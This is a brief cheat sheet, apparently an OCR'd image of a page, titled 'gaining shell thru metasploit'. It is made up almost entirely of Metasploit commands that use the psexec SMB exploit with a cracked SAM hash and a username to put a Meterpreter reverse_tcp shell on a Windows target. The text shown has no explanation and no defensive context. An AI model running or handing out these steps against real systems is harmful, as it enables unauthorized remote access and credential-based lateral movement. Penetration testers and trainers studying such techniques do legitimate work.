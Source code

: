 **gaining shell thru metasploit**
full shell

search psexec smb type: exploit
use exploit/windows/smb/psexec

set rhost (target host)
rport <specific smb port>
set smbpass <cracked SAM hash>
set smbuser <host user>
set payload windows/x64/meterpreter/reverse_tcp
run